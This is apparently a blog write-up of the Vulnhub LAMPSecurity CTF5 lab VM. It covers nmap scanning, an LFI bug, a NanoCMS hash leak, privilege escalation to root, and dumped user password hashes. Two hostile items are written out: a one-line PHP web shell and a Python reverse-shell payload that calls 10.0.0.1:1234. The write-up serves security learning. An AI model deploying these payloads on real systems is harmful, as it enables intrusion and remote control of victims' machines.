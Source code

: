 ```yaml
---
layout: post
title:	"Lamp Security CTF5 Writeup"
date:	2017-12-20 21:30:00
categories:
    - blog
tags:
    - vulnhub
---
```


LAMP security CTF5 is a funny and easy CTF with a lot of vulnerabilities. You can find info about it on [Vulnhub.com](https://vulnhub.com).

I ran nmap to see which services were open:

~~~
Syrion:~ syrion$ sudo nmap -sT -sV -O ctf04.root-me.org
Password:

Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2016-10-13 22:39 CEST
Nmap scan report for ctf04.root-me.org (212.129.29.186)
Host is up (0.078s latency).
Not shown: 990 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 4.7 (protocol 2.0)
25/tcp   open  smtp        Sendmail 8.14.1/8.14.1
80/tcp   open  http        Apache httpd 2.2.6 ((Fedora))
110/tcp  open  pop3        ipop3d 2006k.101
111/tcp  open  rpcbind     2-4 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X – 4.X (workgroup: MYGROUP)
143/tcp  open  imap        University of Washington IMAP imapd 2006k.396 (time zone: -0400)
445/tcp  open  netbios-ssn Samba smbd 3.X – 4.X (workgroup: MYGROUP)
901/tcp  open  http        Samba SWAT administration server
3306/tcp open  mysql       MySQL 5.0.45
Device type: WAP|general purpose|media device|broadband router|PBX
Running (JUST GUESSING): Linux 2.4.X|2.6.X (95%), Sony embedded (95%), Starbridge Networks embedded (95%), Asus embedded (94%), Cisco embedded (94%)
OS CPE: cpe:/o:linux:linux_kernel:2.4.30 cpe:/o:linux:linux_kernel:2.6.27 cpe:/o:sony:smp-n200 cpe:/o:linux:linux_kernel:2.6 cpe:/h:starbridge_networks:1531 cpe:/h:asus:rt-ac66u cpe:/h:asus:rt-n16 cpe:/h:cisco:uc320
Aggressive OS guesses: OpenWrt White Russian 0.9 (Linux 2.4.30) (95%), Linux 2.6.27 (95%), Linux 2.6.9 – 2.6.27 (95%), Sony SMP-N200 media player (95%), Linux 2.6.21 (95%), Starbridge Networks 1531 wireless ASDL modem (95%), Linux 2.6.18 (95%), Tomato 1.28 (Linux 2.6.22) (95%), Asus RT-AC66U router (Linux 2.6) (94%), Asus RT-N16 WAP (Linux 2.6) (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 15 hops
Service Info: Hosts: localhost.localdomain, 10.66.4.100; OS: Unix
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.66 seconds
~~~

How we can see there were a lot of services, but first let’s see the website on port 80. I found a Local File Inclusion (LFI) Vulnerability:

~~~
Warning: include_once(inc/pagina.php.php) [function.include-once]: failed to open stream: No such file or directory in /var/www/html/index.php on line 6

Warning: include_once() [function.include]: Failed opening ‘inc/pagina.php.php’ for inclusion (include_path=’.:/usr/share/pear:/usr/share/php’) in /var/www/html/index.php on line 6
~~~

The warning “include_once(inc/pagina.php.php)” helped me to understand I needed a null byte:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf5-writeup/img1.png)

Ok, I found a LFI but i needed to upload something for run code. On blog page there was this NanoCMS:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf5-writeup/img2.png)

I found this [vulnerability](http://www.securityfocus.com/bid/34508) for NanoCMS (DirBuster found the same file):

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf5-writeup/img3.png)

Ok I got the username and password hash:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf5-writeup/img4.png)

Authentication was successful, I created a new page containing a classic “<?php passthru($_GET[“cmd”]); ?>”:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf5-writeup/img5.png)

I got a reverse shell on netcat by using this payload:


~~~
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);s.connect((“10.0.0.1”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”])
~~~

After some local enumeration, I discovered that the OS was vulnerable to this [exploit](http://www.exploit-db.com/exploits/9479/):

~~~
bash-3.2# id
id
uid=0(root) gid=0(root) groups=48(apache) context=system_u:system_r:httpd_t:s0
bash-3.2# cat /passwd
cat /passwd
237709daa3a06bde0355ff93a9de0ca9
bash-3.2#
~~~

There were much interesting things in the system, for example:

* samba users enumeration
* database credentials (LFI on configuration file of another blog)
* database content:

~~~
+—–+———-+————+———————————-+
| uid | name | login | pass |
+—–+———-+————+———————————-+
| 0 | | 0 | |
| 1 | jennifer | 1241021410 | e3f4150c722e6376d87cd4d43fef0bc5 |
| 2 | patrick | 1475888924 | 5f4dcc3b5aa765d61d8327deb882cf99 |
| 3 | andy | 1241021903 | b64406d23d480b88fe71755b96998a51 |
| 4 | loren | 0 | 6c470dd4a0901d53f7ed677828b23cfd |
| 5 | amy | 0 | e5f0f20b92f7022779015774e90ce917 |
+—–+———-+————+———————————-+
~~~

Bye bye!!!
